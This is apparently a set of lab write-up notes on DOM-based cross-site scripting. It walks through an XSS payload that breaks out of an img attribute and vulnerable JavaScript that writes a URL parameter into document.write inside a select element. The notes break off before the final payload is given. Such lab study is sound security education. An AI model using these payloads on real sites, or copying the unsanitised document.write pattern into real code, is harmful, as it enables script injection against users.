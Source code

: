 

When entering the string `test123`, the website returned the following HTML:

`<img src="/resources/images/tracker.gif?searchTerms=test123" jt11wq1q5="">`

From this, I determined that it is possible to escape the input and trigger an alert by using the following payload: `"><svg onload=alert(1)>`

The browser loads the `<svg>` element, triggering the onload event, which then executes the `alert(1)` JavaScript code.

Note, however, that in some situations the content that is written to document.write includes some surrounding context that you need to take account of in your exploit. For example, you might need to close some existing elements before using your JavaScript payload. 

### Lab: DOM XSS in document.write sink using source location.search inside a select element

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function. 
```js
var stores = ["London", "Paris", "Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if (store) {
  document.write('<option selected>' + store + '</option>');
}
for (var i = 0; i < stores.length; i++) {
  if (stores[i] === store) {
    continue;
  }
  document.write('<option>' + stores[i] + '</option>');
}
document.write('</select>');
```

For example, the string `test` will be
```html
<select name="storeId">
    <option selected="">test</option>
    <option>London</option>
    <option>Paris</option>
    <option>Milan</option>
</select>
```

Our goal is to trigger an alert by the payload so the html should looks like this:

```html
<select name="storeId">
    <option selected="">test</option>
</select>

<svg "onload=alert(1)">

<select>
    <option>London</option>
    <option>Paris</option>
    <option>Milan</option>
</select>
```
So, the final payload is:
